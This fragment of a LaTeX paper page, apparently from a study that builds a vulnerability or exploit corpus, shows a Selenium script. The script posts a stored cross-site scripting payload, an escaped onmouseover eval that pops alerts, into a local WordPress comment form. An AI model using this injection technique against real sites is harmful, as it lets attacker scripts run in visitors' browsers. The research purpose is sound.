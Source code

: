 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
\begin{minipage}{\textwidth}
{\tt \footnotesize
\begin{lstlisting}
payload = "<a href=\"#\" title=\"XSS http:" \
          "//example.com/onmouseover=eval(" \
          "unescape(/%61%6c%65%72%74%28%31" \
          "%29%3b%61%6c%65%72%74%28%32%29%" \
          "3b%61%6c%65%72%74%28%33%29%3b/." \
          "source))//\">XSS</a>"

driver = self.create_selenium_driver()

driver.get("http://localhost/wordpress/?p=1")
get = driver.find_element_by_id
get("author").send_keys("selenium script")
get("email").send_keys("selenium@python.org")
get("url").send_keys("www.python.org")
get("comment").send_keys(payload)
get("submit").click()
\end{lstlisting}
}
\end{minipage}

\section{Corpus Development}
\end{document}
